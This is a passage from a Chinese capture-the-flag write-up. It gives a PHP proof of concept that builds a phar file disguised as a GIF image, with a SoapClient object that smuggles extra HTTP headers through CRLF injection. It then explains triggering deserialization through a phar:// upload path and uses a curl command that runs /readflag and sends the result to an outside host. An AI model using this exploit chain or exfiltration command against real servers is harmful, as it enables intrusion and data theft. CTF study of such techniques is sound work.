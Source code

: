 ```php
                'user_agent'=> str_replace('^^', "\r\n", 'xxxxx^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string),
                'uri'=>'hello')
        ];
    }
}
$obj = new File();
$phar = new Phar('poc.phar');
$phar->startBuffering();
$phar->setStub("GIF89a __HALT_COMPILER();");
$phar->setMetadata($obj);
$phar->addFromString('1.txt','text');
$phar->stopBuffering();
?>
```

将生成的poc.phar改一个图片文件后缀，然后上传

再func.php里面提交url

```
php://filter/resource=phar://upload/2c67ca1eaeadbdc1868d67003072b481/551ccbaef945b2c4f3ca88361f08d600.jpg
```

关于构造SoapClient当中的cmd命令为

```
curl --referer "`/readflag`" --insecure "http://xss.buuoj.cn/index.php?do=api%26id=dzWPkK"
```

因为没有回显，只能使用将flag外带的方式带出来，使用buuoj的xss平台。id后面的字符是你创建的工程的数值



附上出题人[出题笔记](https://xz.aliyun.com/t/6057)